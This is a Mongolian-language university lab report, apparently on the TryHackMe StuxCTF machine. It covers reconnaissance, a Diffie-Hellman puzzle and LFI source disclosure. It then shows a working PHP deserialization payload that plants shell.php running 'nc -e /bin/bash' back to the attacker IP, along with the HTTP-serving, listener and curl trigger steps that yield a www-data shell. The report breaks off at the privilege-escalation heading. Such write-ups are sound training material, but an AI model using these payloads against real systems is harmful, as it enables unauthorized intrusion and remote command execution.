<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 { color: #000000; }
h1 { font-size: 16pt; }
p { text-align: justify; }
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:** StuxCTF

**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>

# TRYHACKME – StuxCTF



Ажлын хүрээнд Kali Linux үйлдлийн системийг туршилтын орчин болгон ашиглаж, зорилтот системийн сүлжээний үйлчилгээнүүдийг судлах, веб аппликейшн дэх далд мэдээлэл болон криптограф тооцоолол, PHP програмын эмзэг байдал (PHP Object Injection), түүнчлэн системийн эрхийн тохиргооны алдааг ашиглан root эрх авах үйл явцыг алхам алхмаар гүйцэтгэсэн.

Туршилтын явцад Nmap болон Gobuster хэрэгслүүдийг ашиглан зорилтот машины нээлттэй портууд болон веб директоруудыг илрүүлсэн. Веб хуудасны эх кодонд нуугдсан Diffie-Hellman алгоритмын өгөгдлүүдийг Python ашиглан бодож, далд директорыг олсон. Улмаар LFI (Local File Inclusion) болон PHP Object Injection эмзэг байдлыг ашиглан reverse shell холболт үүсгэж, эцэст нь `sudo` эрхийн буруу тохиргоог ашиглан root эрх авч, `user.txt` болон `root.txt` файлуудыг амжилттай уншсан.

---

## 3. ОНОЛЫН ХЭСЭГ

### Diffie-Hellman түлхүүр солилцооны алгоритм
Diffie-Hellman нь хоёр тал нууц түлхүүрээ солилцохгүйгээр нийтийн сувгаар аюулгүй харилцах боломжийг олгодог криптограф арга юм. Энэхүү даалгаварт веб хуудасны HTML эх кодонд `g`, `p`, `a`, `b`, `g^c` гэх мэт параметрүүдийг нуун байрлуулсан байсан бөгөөд тэдгээрийг математик томьёо `(g^c)^a mod p` болон `g^(c*a*b) mod p`-д орлуулан бодож, далд директорын нэрийг олсон.

### PHP Object Injection (PHP Объект)
PHP хэлэнд `serialize()` функц нь өгөгдлийн бүтцийг (объект, массив) текстэн хэлбэрт хөрвүүлдэг бол `unserialize()` функц нь эсрэг үйлдлийг гүйцэтгэдэг. Хэрэв хэрэглэгчийн оруулсан өгөгдлийг шалгалтгүйгээр `unserialize()` функцэд дамжуулбал, халдагч өөрийн бүтээсэн хортой объектыг (payload) системд ачаалж, үүсгэсэн объектын `__destruct()` эсвэл `__wakeup()` функцийг ашиглан системд команд ажиллуулах боломжтой болдог. Үүнийг PHP Object Injection буюу PHP Object Deserialization эмзэг байдал гэж нэрлэдэг.

### Sudo-ийн буруу тохиргоо
Linux системд `sudo` команд нь энгийн хэрэглэгчид тодорхой програмуудыг root эрхээр ажиллуулах боломж олгодог. Хэрэв `/etc/sudoers` файлд хэрэглэгчид `NOPASSWD: ALL` эрх олгосон бол тухайн хэрэглэгч нууц үг оруулахгүйгээр root эрхтэй дурын команд ажиллуулах боломжтой болно. Энэ нь системийн аюулгүй байдалд маш том эрсдэл учруулдаг.

---

## 4. АЖЛЫН ГҮЙЦЭТГЭЛ

### Nmap ашиглан зорилтот машины портуудыг судлах



Сүлжээний холболт хэвийн болохыг шалгасны дараа зорилтот сервер дээр ямар үйлчилгээ ажиллаж байгааг тодорхойлох шаардлагатай болсон. Үүний тулд Nmap хэрэгслийг ашигласан.

Ашигласан команд:
```bash
nmap -sV -T4 10.112.151.167
```

Командын параметрүүд:
- `nmap` нь сүлжээний төхөөрөмж, нээлттэй порт болон үйлчилгээний мэдээллийг илрүүлэх хэрэгсэл юм.
- `-sV` нь нээлттэй портууд дээр ажиллаж буй үйлчилгээний хувилбарыг тодорхойлно.
- `-T4` нь скан хийх хурдны хэвийн (агрессив) түвшний тохиргоог ашиглана.
- `10.112.151.167` нь зорилтот серверийн IP хаяг юм.

Скан хийсний үр дүнд зорилтот систем дээр дараах портууд илэрсэн.

| Порт | Үйлчилгээ | Хувилбар | Тайлбар |
|---|---|---|---|
| 22/TCP | SSH | OpenSSH 7.2p2 Ubuntu | Алсын терминалын холболт |
| 80/TCP | HTTP | Apache httpd 2.4.18 | Вэб сервер |

Энэ шатны үр дүнгээс веб серверийн 80 дугаар порт нь цаашид нарийвчлан судлах шаардлагатай үйлчилгээ болохыг тогтоосон.

### Nmap-ийн нэмэлт скрипт ашиглах



Веб серверийн талаар илүү дэлгэрэнгүй мэдээлэл авахын тулд Nmap-ийн анхдагч скриптүүдийг ажиллуулсан.

Ашигласан команд:
```bash
nmap -sV -sC 10.112.151.167
```

`-sC` параметр нь анхдагч скриптүүдийг (default scripts) ажиллуулж, веб хуудасны гарчиг, robots.txt файл зэрэг нэмэлт мэдээллийг цуглуулдаг. Үр дүнд нь `http-robots.txt` скрипт нь `/StuxCTF/` гэсэн директорыг илрүүлсэн боловч хөтчөөр шалгахад уг директор 404 алдаа буцаасан.

### Gobuster ашиглан вэб директор хайх



Веб сервер дээрх далд директор болон файлуудыг илрүүлэх зорилгоор Gobuster хэрэгслийг ашигласан.

Ашигласан команд:
```bash
gobuster dir -u http://10.112.151.167/ -w /usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```

Командын параметрүүд:
- `gobuster` нь вэб директор болон файл илрүүлэх хэрэгсэл.
- `dir` нь директор хайх горимыг сонгоно.
- `-u` нь шалгах URL-ийг заана.
- `-w` нь хайлт хийх үгсийн жагсаалтыг заана.
- `tee gobuster.txt` нь гарсан үр дүнг терминал дээр харуулахын зэрэгцээ файлд хадгална.

Командын үр дүнд `robots.txt`, `index.html`, `server-status` зэрэг файлууд илэрсэн. `robots.txt` файлыг хөтчөөр нээж үзэхэд `/StuxCTF/` гэсэн замыг харуулсан боловч энэ нь хуурамч зам байсан.

### Эх кодоос далд мэдээлэл хайх



Веб хуудасны эх кодыг шалгаж үзэхэд HTML тайлбар (comment) дотор Diffie-Hellman алгоритмын параметрүүд нуугдсан байв.

```html
<!-- The secret directory is...
p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
g: 7;
a: 330;
b: 450;
g^c: 609191780083359874153092408176222547741827701014202262273168815829775962132940707098549791707898878144889947074350694220209769840915705739528359582454617;
-->
```
Эдгээр утгуудыг ашиглан далд директорын нэрийг тооцоолох шаардлагатай болсон.

### Diffie-Hellman параметрүүдийг тооцоолох



Далд директорын нэрийг олохын тулд Python хэлний интерактив орчинг ашигласан.

```python
python3
>>> p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
>>> g = 7
>>> a = 330
>>> b = 450
>>> gc = 609191780083359874153092408176222547741827701014202262273168815829775962132940707098549791707898878144889947074350694220209769840915705739528359582454617
>>> gca = (gc**a) % p
>>> gcab = (gca**b) % p
>>> print(str(gcab)[:128])
47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
```
Үр дүнд гарсан 128 тэмдэгтэй тоог далд директорын нэр болгон ашигласан.

### Далд директор руу хандах



Хөтчөөр `http://10.112.151.167/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/` хаягаар хандсан. Хуудас дээр "Follow the white rabbit.." гэсэн текст гарч ирсэн бөгөөд эх кодыг шалгахад `<!-- Hint: /?file= -->` гэсэн заавар байсан. Энэ нь LFI (Local File Inclusion) эмзэг байдал байгааг илтгэж байв.

### LFI болон эх код задлах



`/?file=index.php` гэсэн параметрийг дамжуулж үзэхэд хуудасны эх код руу хандах боломжтой болсон. Гэвч уг код нь `bin2hex`, `strrev`, `base64_encode`, `nl2br` функцүүдээр олон давхарлаж шифрлэгдсэн байв. Кодыг задлахын тулд дараах үйлдлүүдийг хийсэн:
1. Hex-ээс текст рүү хөрвүүлэх.
2. Текстийг урвуулахад (reverse) Base64 код гарч ирсэн.
3. Base64-ээс задлахад PHP эх код гарсан.



Кодыг задалсны дараа дараах PHP кодыг олж харсан:
```php
class file {
    public $file = "dump.txt";
    public $data = "dump test";
    function __destruct() {
        file_put_contents($this->file, $this->data);
    }
}

$file_name = $_GET['file'];
if(isset($file_name) && !file_exists($file_name)) {
    echo "File no Exist!";
}

if($file_name=="index.php") {
    $content = file_get_contents($file_name);
    $tags = array("", "");
    echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));
}

unserialize(file_get_contents($file_name));
```
Кодонд `unserialize()` функцийг хэрэглэгчийн оруулсан файлын агуулга дээр шууд ажиллуулж байгаа нь **PHP Object Injection** эмзэг байдал үүссэн байна.

### Хортой Payload бэлтгэх




`file` классын `__destruct()` функцийг ашиглан `shell.php` нэртэй файл үүсгэж, дотор нь reverse shell код бичих payload бэлтгэсэн. Kali машины IP хаяг `192.168.134.122` байв.

```php
<?php
class file {
    public $file = 'shell.php';
    public $data = '<?php shell_exec("nc -e /bin/bash 192.168.134.122 8888"); ?>';
}
echo serialize(new file);
?>
```
Энэхүү PHP кодыг ажиллуулж, гаралтыг `shell.txt` файлд хадгалсан.
```bash
php exploit.php > shell.txt
```

### Payload-ийг зорилтот машин руу илгээх


Kali машинаасаа Python HTTP сервер ажиллуулж, `shell.txt` файлыг зорилтот машин руу татах боломжтой болгосон.
```bash
python3 -m http.server 80
```
Мөн өөр терминал дээр reverse shell хүлээн авах Netcat сонсогчийг ажиллуулсан.
```bash
nc -lvnp 8888
```
Дараа нь хөтчөөр далд директор руу `/?file=http://192.168.134.122/shell.txt` гэж хандаж, зорилтот машин руу payload-аа татсан. Энэ үед `unserialize()` функц ажиллаж, зорилтот машин дээр `shell.php` файл үүссэн.

### Reverse Shell холболт үүсгэх



Үүссэн `shell.php` файлыг хөтчөөр эсвэл cURL ашиглан дуудаж ажиллуулсан.
```bash
curl "http://10.112.151.167/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/shell.php"
```
Үүний үр дүнд Netcat сонсогч дээр `www-data` хэрэглэгчийн эрхээр reverse shell холболт амжилттай үүссэн.


### Эрхийн түвшнийг шалгах


Холболт үүссэний дараа зорилтот систем дээр ямар хэрэглэгчийн эрхээр ажиллаж байгааг шалгасан.
```bash
whoami
```
Үр дүн:
```text
www-data
```

### Privilege Escalation (Root эрх авах)

